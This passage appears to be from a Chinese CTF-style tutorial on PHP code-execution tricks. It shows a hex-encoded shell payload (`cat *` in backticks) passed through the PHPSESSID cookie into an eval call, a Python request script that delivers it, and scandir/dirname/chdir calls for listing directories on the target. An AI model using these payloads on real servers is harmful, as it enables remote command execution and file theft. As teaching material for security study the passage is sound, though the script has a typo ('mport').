 ### session_id()

该函数可以获取/设置当前会话id。PHPSESSID允许字母和数字出现。

* `hex2bin`

    将十六进制转换为ASCII字符
    ```php
    echo hex2bin("48656c6c6f20576f726c6421");
    Hello World!

    ⬇ 5044383959474e6864434171594473  
    ⬇ PD89YGNhdCAqYDs
    <?=`cat *`;
    ```



```php
mport requests
url = 'http://localhost/?code=eval(hex2bin(session_id(session_start())));'
payload = "echo 'sky cool';".encode('hex')
cookies = {
	'PHPSESSID':payload
}
r = requests.get(url=url,cookies=cookies)
print r.content

```

### dirname()&chdir()

如果不能`RCE`便尝试能不能直接读取文件，要进行目录遍历

* `getcwd()`

    用于获取当前目录
    ```php
    ?code=var_dump(getcwd());
    string(13) "/var/www/html"
    ```

* `scandir()`

    这个函数其实在`sql注入`中也用过

    ```php
    ?code=var_dump(scandir(getcwd()));

    array(3) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" }
    ```

* `dirname()`

    返回路径中的目录部分，也就是说将路径中的最后一部分去掉
    目录回溯，上级目录
    `?code=var_dump(scandir(dirname(getcwd())));`

* `chdir()`

    更改当前目录为指定路径

    `chdir(string $directory):bool`

